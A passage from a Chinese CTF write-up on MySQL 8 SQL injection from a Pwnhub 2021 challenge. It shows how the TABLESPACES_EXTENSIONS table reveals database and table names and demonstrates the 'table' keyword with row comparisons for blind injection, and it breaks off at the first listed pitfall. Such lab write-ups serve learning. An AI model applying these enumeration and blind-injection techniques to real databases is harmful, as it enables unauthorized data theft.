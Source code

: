 # Pwnhub2021七月赛NewSql（mysql8注入）



## 前言

以前虽然知道mysql8的sql注入，但是没有真正的去了解过，正好昨天晚上知道了pwnhub最近的比赛里出了这道题，就顺便复现，学习一下mysql8的SQL注入新特性。



## 学习文章

[MYSQL8.0注入新特性](https://xz.aliyun.com/t/8646)

通过这篇文章学习一下基础的知识。

## 

## 基础知识补充

文章中使用了`information_schema.SCHEMA`等来得到数据库，然后得到数据表，但实际上有这么个数据表`information_schema.TABLESPACES_EXTENSIONS`：

![pic35](D:\this_is_feng\github\CTF\Web\picture\pic35.png)

从mysql8.0.21开始出现的，但是`table`关键字是出现在8.0.19之后，所以如果想要使用，还是要试试这个表有没有，如果题目的mysql版本正好在8.0.19-8.0.21之间的话，就不能用了。

这个表好用就好用在，它直接存储了数据库和数据表：

```
mysql> table information_schema.TABLESPACES_EXTENSIONS;
+------------------+------------------+
| TABLESPACE_NAME  | ENGINE_ATTRIBUTE |
+------------------+------------------+
| mysql            | NULL             |
| innodb_system    | NULL             |
| innodb_temporary | NULL             |
| innodb_undo_001  | NULL             |
| innodb_undo_002  | NULL             |
| sys/sys_config   | NULL             |
| users/users      | NULL             |
+------------------+------------------+
7 rows in set (0.00 sec)

```

看到最后的`users/users`，因为我创建了一个users数据库，里面有users数据表。所以有了这个，就会方便很多。



此外，我个人遇到的，利用mysql8的新特性进行注入会有4个坑点。

**第一个坑点**：

```sql
mysql> table information_schema.TABLESPACES_EXTENSIONS limit 6,1;
+-----------------+------------------+
| TABLESPACE_NAME | ENGINE_ATTRIBUTE |
+-----------------+------------------+
| users/users     | NULL             |
+-----------------+------------------+
1 row in set (0.00 sec)

mysql> select (('t','')<(table information_schema.TABLESPACES_EXTENSIONS limit 6,1));
+------------------------------------------------------------------------+
| (('t','')<(table information_schema.TABLESPACES_EXTENSIONS limit 6,1)) |
+------------------------------------------------------------------------+
|                                                                      1 |
```